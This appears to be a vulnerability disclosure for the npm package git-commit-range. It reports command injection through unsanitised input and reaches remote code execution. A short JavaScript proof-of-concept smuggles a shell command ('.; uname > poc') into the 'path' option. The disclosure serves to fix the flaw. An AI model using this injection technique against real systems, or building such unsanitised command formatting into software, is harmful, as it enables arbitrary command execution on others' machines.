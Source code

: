 ## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-git-commit-range/blob/master/index.js#L32

## POC

```js
// poc.js
const gitCommitRange = require('git-commit-range');

gitCommitRange(); 

gitCommitRange({
  path: '.; uname > poc',
  from: '15be93c31ad87c9ced03ba0b60fc2fb55c977c5c',
  to: '32b940b014322834966d79b109d2d7adec8e3ea3',
  include: false,
});
```

## Impact
`RCE` on `git-commit-range` via `insecure command formatting`
